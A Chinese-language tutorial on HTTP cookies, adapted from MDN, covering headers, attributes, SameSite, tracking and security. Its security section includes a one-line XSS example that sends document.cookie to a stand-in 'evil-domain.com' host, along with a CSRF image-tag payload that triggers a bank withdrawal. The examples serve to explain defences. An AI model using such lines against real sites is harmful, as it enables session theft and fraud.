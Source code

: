 ```yaml
---
cover: >-
  https://images.unsplash.com/photo-1643387959267-c84f40357e02?crop=entropy&cs=srgb&fm=jpg&ixid=MnwxOTcwMjR8MHwxfHJhbmRvbXx8fHx8fHx8fDE2NDYwMTE2OTQ&ixlib=rb-1.2.1&q=85
coverY: 0
---
```


# 😉 HTTP cookies

### 简介

HTTP Cookie（Web Cookie）是**服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie使基于无状态的HTTP协议记录稳定的状态信息**成为了可能。

Cookie主要用于以下三个方面：

* 会话状态管理（用户登录状态、购物车）
* 个性化设置（用户自定义设置、主题）
* 浏览器行为跟踪（跟踪分析用户行为） Cookie曾一度用于客户端数据的存储，因当时并没有其它合适的存储办法而作为唯一的存储手段，但现在随着现代浏览器开始支持各种各样的存储方式，Cookie渐渐被淘汰。由于服务器指定Cookie后，浏览器的每次请求都会携带Cookie数据，会带来额外的性能开销（尤其是在移动环境下）。新的浏览器API已经允许开发者直接将数据存储到本地，如使用 Web storage API （本地存储和会话存储）或 IndexedDB 。

### 创建Cookie

当服务器收到HTTP请求时，服务器**可以在响应头里面添加一个Set-Cookie选项**。浏览器收到响应后通常会保存下Cookie，之后对该服务器每一次请求中都通过Cookie请求头部将Cookie信息发送给服务器。另外，Cookie的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。

#### Set-Cookie响应头部和Cookie请求头部

服务器使用Set-Cookie响应头部向用户代理（一般是浏览器）发送Cookie信息。一个简单的Cookie可能像这样： `Set-Cookie: <cookie名>=<cookie值>` 服务器通过该头部告知客户端保存Cookie信息

```javascript
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry

[页面内容]
```

现在，对该服务器发起的每一次新请求，浏览器都会将之前保存的Cookie信息通过Cookie请求头部再发送给服务器

```javascript
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

#### 会话期Cookie

会话期Cookie是最简单的Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。**会话期Cookie不需要指定过期时间（Expires）或者有效期（Max-Age）**。需要注意的是，有些浏览器提供了会话恢复功能，这种情况下即使关闭了浏览器，会话期Cookie也会被保留下来，就好像浏览器从来没有关闭一样。

#### 持久性Cookie

持久性Cookie可以指定一个特定的**过期时间（Expires）或有效期（Max-Age）** (设定的日期和时间只与客户端相关，而不是服务端) `Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;`

#### Cookie的Secure 和HttpOnly 标记

**标记为 Secure 的Cookie只应通过被HTTPS协议加密过的请求发送给服务端**。但即便设置了 Secure 标记，敏感信息也不应该通过Cookie传输，因为**Cookie有其固有的不安全性**，Secure 标记也无法提供确实的安全保障。从 Chrome 52 和 Firefox 52 开始，不安全的站点（http:）无法使用Cookie的 Secure 标记。

为避免跨域脚本 (XSS) 攻击，通过JavaScript的 Document.cookie API无法访问带有 HttpOnly 标记的Cookie，它们只应该发送给服务端。**如果包含服务端 Session 信息的 Cookie 不想被客户端 JavaScript 脚本调用，那么就应该为其设置 HttpOnly 标记** `Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly`

#### Cookie的作用域

Domain 和 Path 标识定义了Cookie的作用域：即**Cookie应该发送给哪些URL**。

Domain 标识指定了哪些主机可以接受Cookie。**如果不指定，默认为当前文档的主机（不包含子域名）。如果指定了Domain，则一般包含子域名。**

例如，如果设置 Domain=mozilla.org，则Cookie也包含在子域名中（如developer.mozilla.org）。

Path 标识指定了主机下的哪些路径可以接受Cookie（该URL路径必须存在于请求URL中）。以字符 **%x2F ("/") 作为路径分隔符**，子路径也会被匹配。

例如，设置 Path=/docs，则以下地址都会匹配：

* /docs
* /docs/Web/
* /docs/Web/HTTP

#### SameSite Cookies

**SameSite Cookie允许服务器要求某个cookie在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF）。**

SameSite cookies是相对较新的一个字段，所有主流浏览器都已经得到支持。

`Set-Cookie: key=value; SameSite=Strict`

* None

浏览器会在同站请求、跨站请求下继续发送cookies，不区分大小写,没有开启这个功能

* Strict

浏览器将只在访问相同站点时发送cookie。

* Lax

在新版本浏览器中，为**默认选项**，Same-site cookies 将会为一些跨站子请求保留，如图片加载或者frames的调用，但只有当用户从外部站点导航到URL时才会发送。如link链接，比较智能

#### JavaScript通过Document.cookie访问Cookie

通过Document.cookie属性可创建新的Cookie，也可通过该属性访问非HttpOnly标记的Cookie。

```javascript
document.cookie = "yummy_cookie=choco"; 
document.cookie = "tasty_cookie=strawberry"; 
console.log(document.cookie); 
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

JavaScript可以通过跨站脚本攻击（XSS）的方式来窃取Cookie。

### 安全

**当机器处于不安全环境时，切记不能通过HTTP Cookie存储、传输敏感信息。**

#### 会话劫持和XSS

在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击 `(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`

HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

#### 跨站请求伪造（CSRF）

在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求： `<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">` 有一些方法可以阻止此类事件的发生：

* 对用户输入进行过滤来阻止XSS；
* 任何敏感操作都需要确认；
* 用于敏感信息的Cookie只能拥有较短的生命周期；

### 追踪和隐私

#### 第三方Cookie

每个Cookie都会有与之关联的域（Domain），如果Cookie的域和页面的域相同，那么我们称这个Cookie为**第一方Cookie（first-party cookie）**，如果Cookie的域和页面的域不同，则称之为**第三方Cookie（third-party cookie）**。一个页面包含图片或存放在其他域上的资源（如图片广告）时，第一方的Cookie也只会发送给设置它们的服务器。通过第三方组件发送的第三方Cookie主要用于**广告和网络追踪**。大多数浏览器默认都允许第三方Cookie，但是可以通过附加组件来阻止第三方Cookie（如EFF的Privacy Badger）。

#### 禁止追踪Do-Not-Track

请求首部 DNT (Do Not Track) 表明了用户对于网站追踪的偏好。它允许用户指定自己是否更注重个人隐私还是定制化内容。

* DNT:0 表示用户**愿意**目标站点追踪用户个人信息。
* DNT:1 表示用户**不愿意**目标站点追踪用户个人信息。

虽然并没有法律或者技术手段强制要求使用DNT，但是通过DNT可以告诉Web程序不要对用户行为进行追踪或者跨站追踪。

#### 僵尸Cookie和删不掉的Cookie

Cookie的一个极端使用例子是僵尸Cookie（或称之为“删不掉的Cookie”），这类Cookie较难以删除，甚至删除之后会自动重建。它们一般是使用**Web storage API、Flash本地共享对象**或者其他技术手段来达到的。

如何做到僵尸cookie [evercookie，希望以后不会用到](https://github.com/samyk/evercookie)

### 说明

本文整理于https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies#%E5%AE%89%E5%85%A8 为更简单方便的理解HTTp的技术
